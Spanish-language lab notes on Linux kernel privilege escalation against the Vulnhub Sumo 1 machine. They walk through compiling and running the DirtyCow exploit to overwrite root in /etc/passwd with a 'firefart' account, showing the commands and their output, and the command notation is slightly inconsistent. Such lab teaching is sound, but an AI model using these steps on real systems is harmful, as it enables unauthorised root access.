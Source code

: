 # Explotación del Kernel

Tags: #Linux #Kernel  #Escalada #Root #Privilegios 

El **Kernel** es la parte central del sistema operativo Linux, que se encarga de administrar los recursos del sistema, como la memoria, los procesos, los archivos y los dispositivos. Debido a su papel crítico en el sistema, cualquier vulnerabilidad en el Kernel puede tener graves consecuencias para la seguridad del sistema.

En versiones antiguas del Kernel de Linux, se han descubierto vulnerabilidades que pueden ser explotadas para permitir a los atacantes obtener acceso de superusuario (**root**) en el sistema.

La elevación de privilegios se refiere a la técnica utilizada por los atacantes para obtener permisos elevados en el sistema, como superusuario (**root**), cuando solo tienen permisos limitados. Por ejemplo, un usuario con permisos limitados en el sistema podría utilizar una vulnerabilidad en el Kernel para obtener acceso de superusuario y, posteriormente, comprometer el sistema.

Las vulnerabilidades del Kernel pueden ser explotadas de varias maneras. Por ejemplo, un atacante podría aprovechar una vulnerabilidad en un controlador de dispositivo para obtener acceso al Kernel y realizar operaciones maliciosas. Otra forma común en que se explotan las vulnerabilidades del Kernel es mediante el uso de técnicas de desbordamiento de búfer, que permiten a los atacantes escribir código malicioso en áreas de memoria reservadas para el Kernel.

Para mitigar el riesgo de vulnerabilidades del Kernel, es importante mantener actualizado el sistema operativo y aplicar parches de seguridad tan pronto como estén disponibles.

A continuación, se os comparte el enlace a la máquina Sumo 1 de Vulnhub, la cual estaremos desplegando en esta clase para mostrar un ejemplo práctico de explotación del Kernel:

- **Máquina Sumo 1**: [https://www.vulnhub.com/entry/sumo-1,480/](https://www.vulnhub.com/entry/sumo-1,480/)

## Kernel

[Linux Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

```bash 
# Descargar 'Linux Suggester' 
❯ wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh 
```

```bash 
❯ lse.sh -l 1 -i    # Enumeramos con la herramienta   
```

## DirtyCow2

* [DirtyCow2](https://www.exploit-db.com/exploits/40839)

```bash 
❯ apt install gcc                          # Instalar el GCC
```

```bash 
# Se puede usar en el Kernel 2.6.22 < 3.9
❯ gcc -pthread dirty.c -o dirty -lcrypt     # compilar el binario y nos regresa un nuevo archivo llamado 'dirty'
❯ chmod +x dirty 
❯ ./dirty <passwd>                          # Ejecutamos el binario y le colocamos la passwd que queramos

# Este binario nos va a crear un usuario llamado 'firefart' y lo reemplazara en el usuario 'root' 

❯ su firefart                               # Colocamos la passwd que ingresamos al momento de ejecutarlo y ahora seremos root
❯ ssh firefart@<IP>                         # Tambien podemos ingresar por SSH
	❯ ssh-keygen -f "/homekali/.ssh/known_hosts" -R "<IP>" # Si nos da un problema al momento de ingresar por SSH, colocamos ese 
```

```bash 
❯ sysinfo             # Nos muestra informacion de Linux, asi como la version del Kernel 
❯ getuid              # Nos muestra el username del servidor 

❯ lsb_release -a                                               
❯ uname -a            # Para ver la Version e informacion del Kernel 

Nota: La versión antigua de 'Kernel 3.2.0-23' es explotable

```

```python 
# Lo que hace este exploit es que por medio de la vulnerabilidad de 'race condition' crea un nuevo usuario hasta arriba del '/etc/passwd' y sustituye root por otro usuario llamado 'firefart' y la passwd es la que tu le indicas al script al momento de ejecutarlo.

❯ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

# Nota: A veces tarda un poco en que te regrese la consola. 
```

```python 
❯ cat /etc/passwd

firefart:fiWV.l3JFnVCk:0:0:pwned:/root:/bin/bash
/sbin:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

```bash 
❯ su firefart                     # Cambiamos de usuario y le colocamos la passwd que colocamos en el script
❯ whoami                          # Nos muestra que somos el usuario firefart
❯ id                              # Miramos que el id = 0, o sea que somos root 
```
